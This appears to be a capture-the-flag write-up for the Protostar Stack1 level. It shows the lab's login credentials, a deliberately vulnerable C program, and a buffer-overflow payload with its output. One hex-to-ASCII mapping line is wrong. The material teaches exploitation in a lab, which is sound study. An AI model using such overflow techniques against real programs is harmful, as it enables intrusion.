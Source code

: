 # Protostar - Stack1
* Getting started
    
    Once the virtual machine has booted, you are able to log in as the “user” account with the password “user” (without the quotes).
    The levels to be exploited can be found in the /opt/protostar/bin directory.
    For debugging the final levels, you can log in as root with password “godmode” (without the quotes)


* Core Files

    README! The /proc/sys/kernel/core_pattern is set to /tmp/core.%s.%e.%p. This means that instead of the general ./core file you get, it will be in a different directory and different file name.


## __Stack1__
* About
  
  This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

  This level is at /opt/protostar/bin/stack1

  Hints
  * If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
  * Protostar is little endian


* Source Code 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}

```

  This is similar to Stack0 but we have to overflow the "modified" variable with specific value, 0x61626364. The value 0x61626364 are in HEX but we must convert them to ASCII and put them follow 64 "A"s. 
  * 0x61 0x62 0x63 0x64 = a d c b

  We will input 64 "A" and then "dcba" because it is little endian that means everything we put into the stack, it will be reverse order. In little endian, you store the least significant byte in the smallest address.
```
user@protostar:~$ /opt/protostar/bin/stack1 $(python -c 'print("A"*64 + "dcba")')
you have correctly got the variable to the right value
```

### _Solution_
```
user@protostar:~$ /opt/protostar/bin/stack1 $(python -c 'print("A"*64 + "dcba")')
you have correctly got the variable to the right value
```